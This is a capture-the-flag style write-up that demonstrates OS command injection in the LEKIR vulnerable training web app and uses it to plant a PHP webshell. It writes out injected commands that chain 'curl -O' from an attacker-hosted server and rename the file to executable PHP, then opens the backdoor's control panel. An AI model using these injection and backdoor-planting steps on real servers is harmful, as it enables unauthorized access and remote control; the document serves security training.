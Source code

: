 # Backdoor.php

In this writeup, we will be demonstrating the use of implementing a backdoor inside the LEKIR vulnerable web app

After running the LEKIR Docker container and accessing it through the browser, navigate to the OS command injection category at Low level

![Figure1](./imgs/img1.png)

![Figure2](./imgs/img2.png)

1. 1st Step: Identfying Vulnerabilities

Input any valid IP. Let's try Google's

![Figure3](./imgs/img3.png)

Seems to work like a normal ping service should

![Figure4](./imgs/img4.png)

Now we get to the fun part, Payloads. Just try out any one in the list

![Figure5](./imgs/img5.png)

As you can see, we succeded in listing the contents in the current directory using the && operator

![Figure6](./imgs/img6.png)

2. 2nd Step: Exploiting Vulnerabilities

Since this web app uses PHP as its backend, we can just exploit it by using a PHP backdoor script. By default the backdoor script is already in our Kali Linux machine, we just need to get it on the vulnerable web app. You can find the script by using the `locate` command in the terminal

![Figure7](./imgs/img7.png)

navigate to the appropriate directory of the script by using `cd /usr/share/webshells/php`

Now what we need to do is host a simple webserver to serve the script which is inside the current directory

We can launch a simple HTTP server using python by entering this command:

`
python -m http.server 8008
`

To see if the server was launched successfully. Go to the browser and enter 'localhost:8008'. It should show up like this:

![Figure8](./imgs/img8.png)

Now that's done, there are 2 ways we can download / retrieve the backdoor script on the vulnerable web app now that it is on a webserver.

- wget

check if wget is installed in the vulnerable system by entering `wget -h`

![Figure9](./imgs/img9.png)

Looks like wget is not installed, let's move on to the next method

- curl

like before, let's check if it is installed

![Figure10](./imgs/img10.png)

Now we can begin downloading the backdoor script. Before that, go to the terminal where the python webserver is hosted. Copy the url which is the server's address and port. In my case it will look like this.

`
http://0.0.0.0:8080/
`

Another thing we need to add at the end of the url is the file we want to download. specify the name of the backdoor

`
http://0.0.0.0:8080/php-backdoor.php
`

Another thing we also need to change is the ip of the url, depending on how you deploy the LEKIR Framework, you need to identify the suitable interfaces to use. '0.0.0.0' means that the webserver is listening on all network interfaces. In my case, i will need to use the Docker interface since I deployed it using Docker

You can check the available interfaces using:

`
ip a
`
![Figure11](./imgs/img11.png)


The current payload will look like this

![Figure12](./imgs/img12.png)

Try running the command

![Figure13](./imgs/img13.png)

If the output looked like this, it means that it did not work. Why?

Because as I have said earlier, PHP is a backend language. When we use curl or wget for that matter to request the file, the webserver will execute the PHP script and return the output such as HTML or JSON rather than the raw PHP source code itself.

What we can do to fix this issue is changing the file type of the script. Let's change it to a .txt file using this command:

`
mv php-backdoor.php php-backdoor.txt
`

Oh and also, do it in another tab of the terminal and don't `Ctrl + C`  the python webserver hahah xD

![Figure14](./imgs/img14.png)

Change the payload 

`
8.8.8.8 && curl -O http://172.17.0.1:8080/php-backdoor.txt
`

The `-O` flag is used to specify the output name of the file when it is downloaded, here I am saving it with its original name

![Figure15](./imgs/img15.png)

Let's try and see if it worked

![Figure16](./imgs/img16.png)

It didn't execute the file. Let's verify this by using `ls`

![Figure17](./imgs/img17.png)

Great!! it worked, our backdoor is downloaded. On to the next step.

3. 3rd Step: Gaining Access

Now that the backdoor script is inside the vulnerable system, we can execute it. But wait...remember that we changed it from a .php file to a .txt file? .txt files are for reading only

We can simply resolve this issue by just changing it back to a .php file in the input field using the `mv` ('Everyone probably knew this ^_^')

`
8.8.8.8 && mv php-backdoor.txt php-backdoor.php
`

verify it once again

![Figure18](./imgs/img18.png)

everything is set, now we can finally execute the backdoor. Navigate to the URL and enter the filename of the backdoor in the current directory

![Figure19](./imgs/img19.png)

Run it

![Figure20](./imgs/img20.png)

What you are seeing is the web-based control panel of the backdoor, aloowing you to interact with the server in various ways including command execution, file uplaod, directory browsing and database query execution





















